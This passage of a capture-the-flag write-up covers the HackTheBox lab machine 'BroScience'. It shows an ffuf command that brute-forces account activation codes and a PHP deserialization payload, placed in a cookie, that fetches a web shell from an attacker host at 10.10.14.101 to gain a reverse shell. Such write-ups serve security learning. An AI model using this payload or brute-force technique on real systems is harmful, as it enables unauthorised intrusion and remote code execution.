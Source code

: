 We can use this php sandbox to generate the activation codes...
```
https://onlinephp.io/
```
After modifying the code, click on the play sign to run the script...
![Screenshot_2023-01-08_22_40_35](https://user-images.githubusercontent.com/99975622/219875954-2ee9f78f-d793-4208-b84e-1d32c0cf71ae.png)
then copy the output to a file. 
After that, we can now activate our account via a bruteforce using ffuf.
```
ffuf -c -u https://broscience.htb/activate.php\?code\=FUZZ -w fuzz.txt -fw 293
```
![Screenshot_2023-01-08_22_40_52](https://user-images.githubusercontent.com/99975622/219899394-9b0a8ef3-c53c-4f53-9cab-47d904e49d57.png)

Now we can login to the site using our newly created account.
![Screenshot_2023-01-08_22_41_30](https://user-images.githubusercontent.com/99975622/219899430-b9d96880-911c-4a94-964a-44e084999d62.png)
If we check for cookies on the site, we find a non-default cookie, user-prefs...
![Screenshot_2023-01-08_22_42_01](https://user-images.githubusercontent.com/99975622/219899568-21a27301-5afc-48b3-803e-3ad9d382f546.png)
If you keenly look at the cookie, it seems to be base64 encoded...
![Screenshot_2023-01-08_22_43_03](https://user-images.githubusercontent.com/99975622/219899705-a5f91b35-b081-4123-b28d-929b12b082df.png)

Wierdly enough, this cookie is being directly invoked into the index.php file....
![Screenshot_2023-01-08_22_43_41](https://user-images.githubusercontent.com/99975622/219900381-e393c328-4dec-4d57-a7d2-8bdf2c33f460.png)
With that, we have our entry point...

We can use this code as our payload, base64 encode it and place it as our cookie and send it off to get a reverse shell.
```
<?php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = "http://10.10.14.101:8081/w.php";
    public $imgPath = "./w.php";

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

echo base64_encode(serialize(new AvatarInterface));
?> 

```
Here's the modified payload...
![Screenshot_2023-01-08_22_57_17](https://user-images.githubusercontent.com/99975622/219903026-367d2047-a919-4198-9b72-b0a2f7a0a893.png)
